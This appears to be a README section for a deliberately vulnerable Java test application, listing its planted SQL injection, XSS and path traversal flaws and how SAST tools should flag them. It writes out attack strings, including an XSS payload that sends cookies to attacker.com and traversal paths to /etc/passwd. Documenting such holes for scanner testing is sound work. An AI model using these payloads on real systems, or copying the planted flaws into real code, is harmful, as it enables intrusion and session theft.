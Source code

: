 ## Testing Vulnerabilities

Below are detailed explanations of key vulnerabilities in the application with examples of how to test them:

#### SQL Injection Vulnerabilities

**Location**: `Login.java` - In the `actionPerformed` method

**Example Exploits**:
```
' OR '1'='1
' OR 1=1; --
admin'; --
" OR ""="
```

**How it works**: The application directly concatenates user input into SQL queries without proper sanitization, allowing an attacker to modify the query's logic.

**SAST Detection**: Tools should identify string concatenation in SQL queries as a security risk and suggest using prepared statements instead.

#### Cross-Site Scripting (XSS) Vulnerabilities

**Location**: `WebController.java` - In the `doGet` method

**Example Exploits**:
```
<script>alert('XSS')</script>
<img src="x" onerror="alert(1)">
javascript:alert(document.cookie)
<svg onload="fetch('https://attacker.com?cookie='+document.cookie)">
```

**How it works**: The application directly outputs user input to the HTML response without proper encoding, allowing script execution.

**SAST Detection**: Tools should identify direct inclusion of request parameters in HTML output and suggest proper output encoding.

#### Path Traversal Vulnerabilities

**Location**: `FileServlet.java` - In the `doGet` method

**Example Exploits**:
```
../../../etc/passwd
..%2f..%2f..%2fetc%2fpasswd
..\..\..\windows\system32\drivers\etc\hosts
```

**How it works**: The application doesn't validate file paths, allowing navigation outside intended directories.

**SAST Detection**: Tools should detect concatenation of user input with file paths and suggest path canonicalization and validation.

